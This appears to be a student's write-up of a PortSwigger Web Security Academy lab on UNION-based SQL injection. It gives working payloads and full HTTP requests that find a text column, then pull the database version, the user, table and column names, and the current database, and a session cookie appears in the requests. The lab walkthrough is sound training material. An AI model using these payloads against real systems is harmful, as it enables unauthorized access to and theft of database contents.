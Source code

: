 # SQL injection UNION attack, finding a column containing text

## URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/

## Sitemap:

URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/

![](./Images/Sitemap0.png)


URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/product?productId=5

![](./Images/Sitemap1.png)


URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/filter?category=Pets

![](./Images/Sitemap2.png)

<br>

<br>

## SQL Injection Identification:

URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/filter?category=Pets'

![](./Images/Id0.png)

<br>

<br>

## Exploitation:

### Find the len of data:

URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL--+-

Payload:

```
GET /filter?category=Pets'+UNION+SELECT+NULL,NULL,NULL--+- HTTP/2
```

### Map the values:

URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/filter?category='+UNION+SELECT+1,'AAAAAAAA',3--+-

![](./Images/expl0.png)

The first argument is the id, the second is the name and it is a string, the final is the price

Request:

```
GET /filter?category='+UNION+SELECT+1,'AAAAAAAA',3--+- HTTP/2
Host: 0a58007b03b7226f80c8f949001b00c4.web-security-academy.net
Cookie: session=Tnj09TUf0NMId986fXG2L8No3JHJSpDW
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


```

### Get version:

```
https://blog.devart.com/how-to-check-mysql-version.html
```

URL: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/filter?category='+UNION+SELECT+1,cast(VERSION()+as+varchar),3--+-


Payload:

```
GET /filter?category='+UNION+SELECT+1,cast(VERSION()+as+varchar),3--+- HTTP/2
```

Request:

```
GET /filter?category='+UNION+SELECT+1,cast(VERSION()+as+varchar),3--+- HTTP/2
Host: 0a58007b03b7226f80c8f949001b00c4.web-security-academy.net
Cookie: session=Tnj09TUf0NMId986fXG2L8No3JHJSpDW
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


```

![](./Images/expl1.png)


### Gt useranme:

URL: https://0a630009047b9b6582a54cc1000000aa.web-security-academy.net/filter?category='+UNION+SELECT+1,cast(USER+as+varchar),3--+-


Payload:

```
GET /filter?category='+UNION+SELECT+1,cast(USER+as+varchar),3--+- HTTP/2
```

![](./Images/expl2.png)


### Get all tables:

URL: `https://0a630009047b9b6582a54cc1000000aa.web-security-academy.net/filter?category='+UNION+SELECT+1,cast(TABLE_NAME+as+varchar),3+FROM+information_schema.tables--+-`

Payload:

```
GET /filter?category='+UNION+SELECT+1,cast(TABLE_NAME+as+varchar),3+FROM+information_schema.tables--+- HTTP/2
```

![](./Images/expl3.png)


Request:

```
GET /filter?category='+UNION+SELECT+1,cast(TABLE_NAME+as+varchar),3+FROM+information_schema.tables--+- HTTP/2
Host: 0a630009047b9b6582a54cc1000000aa.web-security-academy.net
Cookie: session=Tnj09TUf0NMId986fXG2L8No3JHJSpDW
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://0a58007b03b7226f80c8f949001b00c4.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


```

### Get all columns:

URL: `https://0a630009047b9b6582a54cc1000000aa.web-security-academy.net/filter?category='+UNION+SELECT+1,cast(COLUMN_NAME+as+varchar),3+FROM+information_schema.COLUMNS--+-`

![](./Images/expl4.png)

Payload:

```
GET /filter?category='+UNION+SELECT+1,cast(COLUMN_NAME+as+varchar),3+FROM+information_schema.COLUMNS--+- HTTP/2
```

#### Get current database:


URL: `https://0a630009047b9b6582a54cc1000000aa.web-security-academy.net/filter?category='+UNION+SELECT+1,cast(current_database()+as+varchar),3--+-`


Payload:

```
GET /filter?category='+UNION+SELECT+1,cast(current_database()+as+varchar),3--+- HTTP/2
```

![](./Images/expl5.png)

We get table: `academy_labs`


### Get the solution:

I forgot to read the question and just started blsating the db :).

URL: https://0a630009047b9b6582a54cc1000000aa.web-security-academy.net/filter?category='+UNION+SELECT+NULL,'nnAnJk',NULL--+-



## Automation:

Does not require script

